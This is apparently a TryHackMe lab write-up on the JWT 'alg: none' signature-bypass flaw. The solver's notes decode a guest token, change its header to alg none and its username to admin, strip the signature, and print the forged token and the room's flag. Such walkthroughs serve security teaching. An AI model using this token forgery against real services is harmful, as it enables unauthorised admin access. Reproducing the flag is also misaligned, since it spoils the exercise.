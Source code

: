 A data integrity failure vulnerability was present on some libraries implementing JWTs a while ago. As we have seen, JWT implements a signature to validate the integrity of the payload data. The vulnerable libraries allowed attackers to bypass the signature validation by changing the two following things in a JWT:

1.  Modify the header section of the token so that the `alg` header would contain the value `none`.
2.  Remove the signature part.

Taking the JWT from before as an example, if we wanted to change the payload so that the username becomes "admin" and no signature check is done, we would have to decode the header and payload, modify them as needed, and encode them back. Notice how we removed the signature part but kept the dot at the end.

![JWT None Algorithm](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f5d1b4ef49ff4eef52e7617631225e8a.png)  

It sounds pretty simple! Let's walk through the process an attacker would have to follow in an example scenario. Navigate to [http://10.10.89.200:8089/](http://10.10.89.200:8089/) and follow the instructions in the questions below.

Answer the questions below

```
Invalid Credentials. You can also login as "guest" with password "guest"

Hello guest. Only the admin user is allowed to get the flag!

jwt token

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjc4Mzk1NjgyfQ.D-nvz3nrJg3Ftj4p8MKC1RYLLUzLuaImUrV7gsvB0rw

https://jwt.io/

{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "username": "guest",
  "exp": 1678395682
}

changing to alg: none and username: admin

{"typ":"JWT","alg":"none"}

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.

{"username":"admin","exp":1678395682}

eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc4Mzk1NjgyfQ.

so final will be

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc4Mzk1NjgyfQ.


THM{Dont_take_cookies_from_strangers}


```
